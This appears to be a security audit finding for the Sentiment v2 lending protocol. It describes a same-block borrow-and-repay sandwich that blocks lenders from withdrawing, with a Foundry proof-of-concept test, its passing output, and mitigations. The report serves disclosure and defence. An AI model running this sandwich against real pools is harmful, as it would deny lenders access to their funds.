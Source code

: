Glamorous Blush Gecko

High

# An attacker can permanently DOS lender from withdrawing by a sandwich attack

### Summary

If a user borrows and repays a loan within the same block they do not pay any interest

Therefore an attacker can sandwich a lender trying to withdraw funds by borrowing those funds, to ensure the lender's tx reverts and then backrunning the lender's withdraw tx by repaying those funds, all within the same block to ensure 0 interest.

### Root Cause

No intra-block interest accumulation

Allowing intrablock borrow and repays

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Lender sends a tx to [withdraw](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/25a0c8aeaddec273c5318540059165696591ecfb/protocol-v2/src/Pool.sol#L339) funds
2. Frontrun (1) by depositing collateral and then borrowing an amount of assets to make (1) revert
3. Backrun the reverted Tx by repaying the loan all within the same block to ensure no interest accumulates

### Impact

Attacker can permanently DOS a lender withdrawing their funds, the cost of the attack is only the gas cost of the tx

### PoC

Add the following to `BigTest.t.sol`

```solidity
function test__BorrowerFrontRunsLenderWithdrawal() public {
    uint256 depositAmount = 100 ether;
    uint256 borrowAmount = 100 ether;

    // Lender deposits
    vm.startPrank(lender);
    asset1.mint(lender, depositAmount);
    asset1.approve(address(pool), depositAmount);
    pool.deposit(linearRatePool, depositAmount, lender);
    vm.stopPrank();

    // Attacker setup
    vm.startPrank(user);
    (address position, Action memory newPositionAction) = newPosition(user, "test-position");
    positionManager.process(position, newPositionAction);

    // Simulate front-running: 
    // Attacker deposits collateral
    // Attacker borrows all available funds
    asset2.mint(user, 200 ether);
    asset2.approve(address(positionManager), 200 ether);
    Action[] memory setupActions = new Action[](2);
    setupActions[0] = addToken(address(asset2));
    setupActions[1] = deposit(address(asset2), 200 ether);
    positionManager.processBatch(position, setupActions);

    Action memory borrowAction = borrow(linearRatePool, borrowAmount);
    positionManager.process(position, borrowAction);
    vm.stopPrank();

    // Lender attempts to withdraw, which will revert
    vm.prank(lender);
    vm.expectRevert(abi.encodeWithSelector(Pool.Pool_InsufficientWithdrawLiquidity.selector, linearRatePool, 0, depositAmount));
    pool.withdraw(linearRatePool, depositAmount, lender, lender);

    // Attacker repays the full amount, without paying any interest
    vm.startPrank(user);
    asset1.approve(address(positionManager), borrowAmount);
    Action memory repayAction = Action({
        op: Operation.Repay,
        data: abi.encode(linearRatePool, borrowAmount)
    });
    positionManager.process(position, repayAction);
    vm.stopPrank();
```

Console output:

```bash
Ran 1 test for test/integration/BigTest.t.sol:BigTest
[PASS] test__BorrowerFrontRunsLenderWithdrawal() (gas: 783412)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.61ms (815.19µs CPU time)

Ran 1 test suite in 5.94ms (4.61ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

1. Implement intra-block interest accumulation to make this expensive for the attacker
2. Implement a time interval between deposits and repays